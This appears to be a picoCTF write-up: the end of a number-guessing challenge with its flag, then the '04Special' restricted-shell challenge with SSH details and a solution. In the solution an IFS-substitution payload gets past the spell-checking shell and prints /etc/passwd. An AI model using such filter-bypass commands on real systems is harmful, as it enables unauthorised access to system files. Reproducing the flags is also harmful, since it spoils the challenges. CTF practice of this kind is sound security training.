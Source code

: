 Lower! Try again.
Enter your guess: 190
Lower! Try again.
Enter your guess: 189
Congratulations! You guessed the correct number: 189
Here's your flag: picoCTF{g00d_gu355_1597707f}
Connection to atlas.picoctf.net closed.



# 04Special

#### Description

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 54798 ctf-player@saturn.picoctf.net`The password is `af86add3`

# SOLUCION 


````` python
PerfectBlack-picoctf@webshell:~$ ssh -p 54798 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Feb 23 05:07:05 2025 from 127.0.0.1
Special$ IFS=];b=cat]/etc/passwd;$b
IFS=];b=cat]/etc/passwd;$b 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
`````